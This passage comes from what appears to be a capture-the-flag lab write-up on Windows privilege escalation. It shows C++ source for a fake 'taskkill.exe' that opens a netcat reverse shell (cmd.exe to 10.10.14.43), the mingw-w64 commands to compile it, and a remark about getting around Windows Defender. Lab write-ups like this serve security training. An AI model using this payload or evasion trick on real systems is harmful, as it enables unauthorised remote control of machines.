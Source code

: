 To my surprise... nothing happened, the malicious `taskkill.exe` was not in the directory anymore! The culprit here is probably Windows Defender or something similar. Time to create a custom executable to bypass this problem, first I need a way of compiling programs for Windows from Kali and `mingw-w64` is the answer. After that, time to use my C++ skills and craft a malicious program:

```c++
#include<stdlib.h>

int main()
{
	
	system("nc.exe -e cmd.exe 10.10.14.43 3000");
	return 0;
}

```

To compile it `mingw-w64` gives two options:

- **i686-w64-mingw32-gcc:** for 32 bit Windows.
- **x86_64-w64-mingw32-gcc:** for 64 bit Windows.

I went with the 64 bits compiler, if something goes wrong I will use the other:

```bash
x86_64-w64-mingw32-gcc taskkill.cpp -o taskkill.exe
```

I got the Netcat binary from [here](https://github.com/int0x33/nc.exe/blob/master/nc64.exe). Repeating the exploit with the Netcat binary and the malicious `taskkill.exe` worked this time! The root flag is under `C:\Users\Administrator\Desktop\root.txt`.
